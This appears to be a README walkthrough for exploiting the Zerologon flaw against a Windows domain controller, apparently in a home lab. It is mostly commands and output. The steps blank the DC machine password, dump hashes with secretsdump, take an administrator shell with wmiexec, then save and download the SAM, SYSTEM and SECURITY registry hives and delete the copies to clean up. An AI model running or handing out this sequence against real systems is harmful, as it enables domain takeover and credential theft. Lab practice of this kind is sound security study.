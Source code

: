 # ZEROLOGON Instructions:

## Before you begin:

1. you need the Domain Name for the Windows Domain Controller you are attacking.
2. you need the NetBIOS Name (PC name) for the Windows Domain Controller you are attacking.
3. you need the IP address for the Windows Domain Controller you are attacking. 

**That is all!!**

## Nmap to the rescue:
### Find the DC specifically:
All domain controllers listen on port 389

```
sudo nmap -p389 -sV 192.168.1.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 22:25 PDT
Nmap scan report for 192.168.1.28
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: zerologon.learn.now, Site: Default-First-Site-Name)
MAC Address: 08:00:27:AA:C2:F6 (Oracle VirtualBox virtual NIC)
Service Info: Host: ZEROLOGON-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds
```

## change directory to the zerologon exploit folder:

```
cd ~/zerologon
```

## 1st run set_empty_pw.py to exploit the machine:

this will set the password to an empty string

python3 set_empty_pw.py \<NetBIOS-name\> \<IP-Address\>
```
python3 set_empty_pw.py ZEROLOGON-DC 192.168.1.28
```
look for:
Success! DC should now have the empty string as its machine password.


## 2nd run secretsdump.py to dump the hashes:
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 \<Domain\>/\<NETBIOS-name\>\\$@\<IP-Address\>

it is important to have \$@ in between the NetBIOS name and the IP 

```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ZEROLOGON/ZEROLOGON-DC\$@192.168.1.28
```

looking for:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::


## 3rd run wmiexec.py to get terminal on victim machine:

wmiexec.py \<Domain\>/\<user-name\>@\<IP-Address\> -hashes \<administrator-hash\>

```
wmiexec.py ZEROLOGON/Administrator@192.168.1.28 -hashes aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976
```

Looking for:

C:\>


## Commands to run once on victim machine:
```
verify who you are logged in as:
C:\>whoami
zerologon\administrator

verify the system you are logged into:
C:\>hostname
ZEROLOGON-DC

Prep logon credentials for download:
C:\>reg save HKLM\SYSTEM system.save
The operation completed successfully.

C:\>reg save HKLM\SAM sam.save
The operation completed successfully.

C:\>reg save HKLM\SECURITY security.save
The operation completed successfully.

Download logon credentials:
C:\>get system.save
[*] Downloading C:\\system.save

C:\>get sam.save
[*] Downloading C:\\sam.save

C:\>get security.save
[*] Downloading C:\\security.save

Clean up:
C:\>del /f system.save
C:\>del /f sam.save
C:\>del /f security.save
```

## Exit out and go back to Linux terminal: 

```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Looking for:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::

## Restore the original password:
python3 reinstall_original_pw.py <NetBIOS-name> <IP-Address> <admin-hash>

```
python3 reinstall_original_pw.py ZEROLOGON-DC 192.168.1.28 aad3b435b51404eeaad3b435b51404ee:6d4a95ae230e5ce2c1dbfd780e340cbc
```

